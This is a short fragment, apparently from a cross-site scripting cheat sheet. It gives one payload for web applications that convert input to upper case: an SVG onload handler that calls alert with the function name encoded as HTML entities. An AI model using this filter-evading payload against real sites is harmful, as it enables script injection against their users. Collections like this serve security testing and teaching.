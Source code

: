 When web application is converting the user input values to upper case

    <SVG ONLOAD=&#97&#108&#101&#114&#116(1)>

